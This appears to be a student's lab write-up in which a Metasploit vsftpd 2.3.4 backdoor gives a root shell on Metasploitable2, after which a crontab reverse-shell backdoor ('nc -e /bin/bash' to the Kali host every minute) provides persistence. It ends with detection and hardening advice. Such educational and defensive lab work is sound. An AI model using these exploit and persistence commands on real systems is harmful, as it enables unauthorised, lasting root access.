






# Exercise 14 — Metasploit Post-Exploitation: Crontab Persistence

**Date:** 24/03/2026
**Category:** Post-Exploitation / Persistence
**Tools:** Metasploit, Netcat, pfSense
**Attacker:** Kali Linux — 192.168.56.102
**Firewall:** pfSense — WAN 192.168.56.104 / LAN 192.168.1.1
**Target:** Metasploitable2 — 192.168.1.100

---

## Objective
After gaining initial root access via the vsftpd 2.3.4 backdoor exploit
(Exercise 03), establish persistent access on Metasploitable2 by
installing a crontab-based reverse shell backdoor — demonstrating how
attackers maintain access after initial compromise without needing to
re-exploit the target.

---

## Background
Initial access is only the beginning of a real attack. Once an attacker
has a foothold, the next priority is **persistence** — ensuring they can
return to the compromised system even if the original vulnerability is
patched or the process is killed.

Crontab is a Linux scheduler that runs commands at defined intervals.
Because it runs as the user who owns the entry, a root crontab entry
executes with full system privileges automatically — no user interaction
required. This makes it one of the simplest and most reliable persistence
mechanisms on Linux systems.

From a SOC perspective, unexpected crontab entries — especially those
containing network connections or shell commands — are a high-confidence
indicator of compromise.

---

## Lab Setup

All three VMs were started in the correct boot order and routes verified
before beginning.

**Boot order:** pfSense → Metasploitable2 → Kali

**Routes applied after boot:**
```bash
# On Kali
sudo ip route add 192.168.1.0/24 via 192.168.56.104

# On Metasploitable
sudo route add default gw 192.168.1.1
```

Connectivity verified with a successful ping to 192.168.1.100 from Kali.

### Screenshot — Lab Setup: All VMs Running with Ping Verified


---

## Part A — Disabling the pfSense FTP Block Rule

The vsftpd exploit targets port 21. The pfSense block rule installed in
Exercise 06 prevents this connection from reaching Metasploitable — as
intended. For this exercise the rule was temporarily disabled to allow
the exploit through.

**pfSense web GUI:** `https://192.168.56.104` → Firewall → Rules → WAN
→ toggle the **BLOCK TCP port 21** rule off → Apply Changes.

This is a deliberate and documented step — the block rule is re-enabled
after the exercise. In a real environment, a rule change like this would
appear in the firewall's audit log and should trigger a change management
review.

### Screenshot — pfSense FTP Block Rule Disabled


---

## Part B — Initial Access via vsftpd Backdoor

The vsftpd 2.3.4 backdoor exploit from Exercise 03 was used to gain
the initial root shell. The first attempt failed — port 6200 was still
occupied from a previous session, blocking the backdoor bind listener
from opening.

Metasploitable was rebooted via VirtualBox to clear the stale port state,
routes were re-applied on Kali, and the exploit was run again successfully.
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
run
```

**Result:** Root bind shell opened on port 6200. Shell upgraded to
interactive bash:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Screenshot — Exploit Failed Then Succeeded, Root Shell Obtained


### Screenshot — Interactive Shell Upgraded


---

## Part C — Installing the Crontab Backdoor

With a root shell on Metasploitable, a crontab entry was added to fire
a reverse shell back to Kali every minute.

An initial attempt using `/dev/tcp` failed — this kernel (2.6.24) is
too old to support bash's built-in TCP redirection. Netcat was used
instead:
```bash
echo "* * * * * nc -e /bin/bash 192.168.56.102 4444" | crontab -
crontab -l
```

| Field | Meaning |
|---|---|
| `* * * * *` | Run every minute (minute, hour, day, month, weekday) |
| `nc -e /bin/bash` | Execute /bin/bash and pipe it through netcat |
| `192.168.56.102` | Attacker IP — Kali |
| `4444` | Listener port on Kali |
| `crontab -` | Read crontab entry from stdin |
| `crontab -l` | List current crontab entries to verify |

**Result:** Entry confirmed in crontab.

---

## Part D — Catching the Reverse Shell

A netcat listener was set up on Kali to catch the incoming connection:
```bash
nc -lvnp 4444
```

| Flag | Meaning |
|---|---|
| `-l` | Listen mode |
| `-v` | Verbose output |
| `-n` | No DNS resolution |
| `-p 4444` | Port to listen on |

Within 60 seconds the crontab fired automatically and the connection
arrived with no further interaction required.

### Screenshot — Listener Connected with whoami and id Confirming Root


---

## Part E — Persistence Verified

The crontab entry was confirmed directly on Metasploitable from the
interactive shell tab:
```bash
crontab -l
```

**Result:** `* * * * * nc -e /bin/bash 192.168.56.102 4444`

### Screenshot — Crontab Entry Confirmed on Target


The backdoor will continue firing every minute regardless of whether
the original vsftpd exploit session is active — this is the core
value of persistence. Even if the vsftpd service is patched or
restarted, the crontab entry survives and continues calling back.

---

## Attack Chain Summary
```
vsftpd 2.3.4 backdoor exploit → root bind shell on port 6200
    → Interactive shell upgraded via python pty
        → Crontab entry installed as root
            → nc -e /bin/bash fires every minute
                → Reverse shell connects to Kali port 4444
                    → Persistent root access — no re-exploitation needed
```

---

## Real-World Relevance

**Persistence is the second phase of every serious attack.** Initial
access via an exploit is noisy and unreliable — the vulnerability may
be patched, the process may crash, or the session may time out. Attackers
install persistence mechanisms immediately after gaining access to ensure
they can return quietly.

**Crontab persistence is common in real incidents.** It requires no
additional tools, survives reboots, and runs automatically. Security
vendors including CrowdStrike and SentinelOne include crontab monitoring
as a standard detection capability precisely because of how frequently
this technique appears in real intrusions.

**Detection is straightforward if you know what to look for.** Unexpected
entries in root's crontab — especially containing network utilities like
nc, curl, or wget — are a reliable indicator of compromise. MITRE ATT&CK
maps this technique as **T1053.003 — Scheduled Task/Job: Cron**.

**The /dev/tcp limitation is a real-world variable.** Older systems and
minimal Linux installations may not support bash's built-in TCP
redirection. Attackers adapt by using available binaries — netcat,
python, perl, or curl — whichever is present on the target.

---

## Recommendation
- Monitor `/var/spool/cron/crontabs/` for unexpected entries — any
  modification to root's crontab outside a change window should
  trigger an immediate alert
- Audit all crontab entries on Linux hosts as part of regular
  hardening checks — `crontab -l -u root` should return only
  known, documented entries
- Block outbound connections from servers to unknown IPs at the
  perimeter firewall — a server initiating a connection to an
  attacker's machine is a strong indicator of a reverse shell
- Deploy a host-based IDS or EDR that monitors for crontab
  modifications and unexpected outbound netcat or bash network
  connections
- Patch known vulnerabilities promptly — the vsftpd backdoor
  used for initial access in this exercise has been public since
  2011. Unpatched legacy services remain one of the most common
  entry points in real incidents
